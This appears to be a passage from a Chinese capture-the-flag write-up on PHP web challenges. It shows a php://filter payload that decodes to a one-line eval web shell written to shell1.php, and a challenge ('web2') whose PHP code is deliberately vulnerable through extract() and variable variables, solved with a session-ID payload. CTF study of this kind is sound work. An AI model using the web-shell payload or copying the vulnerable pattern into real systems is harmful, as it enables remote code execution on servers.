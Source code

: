 [探索php伪协议以及死亡绕过 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/266565.html)

```
?content=php://filter/string.strip_tags|convert.base64-decode/resource=?%3EPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2B/../shell1.php
```



## web2

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-01-16 15:42:02
# @Last Modified by:   h1xa
# @Last Modified time: 2022-01-24 22:14:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

highlight_file(__FILE__);
session_start();
error_reporting(0);

include "flag.php";

if(count($_POST)===1){
        extract($_POST);
        if (call_user_func($$$$$${key($_POST)})==="HappyNewYear"){
                echo $flag;
        }
}
?>

```

count()获取数组元素数目，extract()变量覆盖

key() 返回元素键名

这里使用了可变变量`$$$$$${key($_POST)}`，只要使得键名和键值相同就可以重复指向自身

那么就是找可以传入的东东，一般是头部，这里用的是session

payload:

```
POST:
session_id=session_id

cookie:
PHPSESSID=HappyNewYear
```
